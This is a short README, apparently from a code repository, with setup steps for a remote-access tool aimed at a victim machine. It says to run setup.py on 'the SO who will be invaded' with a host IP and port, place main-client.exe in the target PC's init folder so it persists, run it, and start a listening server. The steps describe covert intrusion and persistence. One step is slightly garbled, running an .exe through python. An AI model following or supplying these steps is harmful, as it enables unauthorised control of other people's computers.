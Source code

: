 #Instructions

Install Python 3.x version

Install the requirements.txt
(run: "pip install -r requirements.txt)

Run the Setup.py in the SO who will be invaded
"python setup.py -hI <host ip> -p <port>"

move the main-client.exe to the init folder on the target PC

exec the main-client.exe

exec "python main-server.exe -p <port>"
 
